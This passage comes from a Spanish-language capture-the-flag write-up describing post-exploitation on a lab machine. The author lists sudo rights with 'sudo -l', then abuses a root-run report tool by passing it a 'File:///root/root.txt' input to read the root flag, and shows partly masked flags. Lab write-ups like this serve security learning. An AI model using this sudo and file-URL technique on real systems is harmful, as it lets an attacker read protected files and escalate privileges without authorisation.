 Estas credenciales nos servirán para conectarnos por ssh.

# Post-explotación

Ya podemos leer la flag del usuario

```plaintext
❯ cat user.txt
bb562deb8b7b476e****************
```

Vamos a ver si podemos interactuar con algun ejecutable sin proporcionar contraseñas.

```plaintext 
❯ sudo -l
Matching Defaults entries for code on code:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User code may run the following commands on code:
    (root) NOPASSWD: /usr/bin/treport
```

Vemos que podemos interactuar con el ejectuble `treport` como el usuario root sin proporcionar contraseña.

Al ejecurtarlo nos da 3 opciones, crear un reporte, leer un reporte o descargar un reporte. En este punto lo que podriamos hacer es descargarnos como un reporte la flag de root. 

```plaintext
❯ sudo treport 
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
❯ Enter your choice:3
❯ Enter the IP/file_name:File:///root/root.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0  16500      0 --:--:-- --:--:-- --:--:-- 16500
❯ Enter your choice:2
ALL THE THREAT REPORTS:
threat_report_08_59_01
❯ Enter the filename:threat_report_08_59_01
25bebc130f32b387****************
```
